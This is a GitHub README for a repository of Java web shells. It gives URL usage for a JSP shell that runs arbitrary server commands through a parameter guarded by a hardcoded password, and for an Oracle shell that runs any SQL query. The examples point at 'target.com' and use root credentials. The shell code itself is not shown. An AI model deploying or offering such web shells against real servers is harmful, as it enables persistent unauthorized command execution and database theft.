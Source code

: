 # java-web-shells

## simple-webshell.jsp

It allows you to execute commands on server 

### USAGE

http://target.com/simple-webshell.jsp?pwd=z&i=cmd

replace cmd parameter with command you want to execute like ls, id, whomai etc

## oracle-webshell.jsp

It allows you to connect with oracle database using connection string, username and password. It allows you to execute any SQL query on database 

### USAGE

http://target.com/oracle-webshell.jsp?u=connection-string&n=user-name&p=password&q=SQL-query

u : Connection String : jdbc:oracle:thin:@172.23.1.88:1521:sid
n : User Name : root
p : Password : root
s : SQL query : SELECT 1 FROM DUAL

replace u, n, p and s according toyour need


